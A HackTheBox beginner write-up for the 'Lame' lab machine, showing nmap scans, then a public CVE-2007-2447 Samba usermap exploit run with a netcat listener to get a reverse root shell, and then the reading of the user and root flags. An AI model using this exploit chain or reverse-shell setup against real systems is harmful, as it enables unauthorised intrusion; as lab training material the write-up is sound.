 ```yaml
---
language: english
noteType: area
skills: "nmap, netcat"
status: draft
tags: [hackthebox, writeup]
title: Lame Write-Up
date: 06 Nov 2024
---
```


# Lame Write-Up

Lame is a very basic machine from the [Beginner Track](https://app.hackthebox.com/tracks/Beginner-Track) track to start getting familiar with the main tools of pentesting.

![Lame Overview](./lame-overview.png)

<!-- truncate -->

## Recon

### nmap

[[nmap]] finds four open TCP ports, FTP (21), SSH (22), old SMB (139), SMB (445):

```bash
nmap -p- --open --min-rate=5000 -Pn -T4 -oN nmap/open_ports 10.129.143.253
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-06 20:05 CET
Nmap scan report for 10.129.143.253
Host is up (0.048s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 26.54 seconds
```

```bash
nmap -p 21,22,139,445 -sV -sC -oN nmap/services_version 10.129.143.253
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-06 20:16 CET
Nmap scan report for 10.129.143.253
Host is up (0.046s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.129
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h30m38s, deviation: 3h32m10s, median: 36s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-11-06T14:17:14-05:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.82 seconds
```

### SMB

Looing the samba version I found [this](https://github.com/amriunix/CVE-2007-2447). So following the Python script I did the following.

- Open my netcat and type:

```bash
nc -lvnp 1234
```

- Execute GitHub exploit to get the root shell:

```bash
python3 usermap_script.py 10.129.143.253 139 10.10.14.129 1234
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
```

- Got shell:

```
nc -lvnp 1234
Connection from 10.129.143.253:41195
whoami
root
```

- Get the normal user and root flags:

```
ls home
ftp
makis
service
user
cd /home/makis
ls
user.txt
cat user.txt
f7da385424028604c99dd9ff8bb5a6b3
f7dXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
cd /root
ls
Desktop
reset_logs.sh
root.txt
vnc.log
cat root.txt
618XXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

And the machine is pwned! ;)

## References

- ch4p. (2017, March 14). <span class="reference-title">Lame</span>. _HTB Labs_. [https://app.hackthebox.com/machines/1](https://app.hackthebox.com/machines/1)
